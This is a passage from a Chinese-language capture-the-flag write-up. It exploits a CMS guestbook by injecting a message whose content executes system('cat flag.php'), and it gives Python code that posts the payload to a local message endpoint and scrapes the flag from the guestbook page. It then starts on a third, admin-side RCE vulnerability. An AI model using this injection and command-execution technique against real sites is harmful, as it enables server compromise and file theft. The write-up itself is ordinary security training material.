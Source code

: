    前台留言板并未显示任何内容，猜测后台留言已经新增成功，去前台留言板获取新增的留言，又因为留言内容执行的是  `system("cat flag.php");` ，所以应该可以拿到 `flag`

   ```python
   def catchFlag():
       r = requests.get("http://127.0.0.1/?gbook/")
       flag = re.findall(r'''flag="(.+?)";''', r.text)
       if (len(flag)>=0):
           #多次插入exp会造成获取到多个flag，取一个即可
           print(flag[0])
       else:
           print("can not catch the Flag")
   ```

   主函数

   ```python
   if __name__ == '__main__':
       url = "http://127.0.0.1/?message/"
       if myPost(url):
           catchFlag()
   ```

   成功拿到 `flag{flaggg}`
   
   ![image-20220723021836465](img/Break2_catchFlag_308.png)

## 漏洞三

**整体破解思路分析**：

- 由于是后台 RCE ，需要先拿到账号密码登录
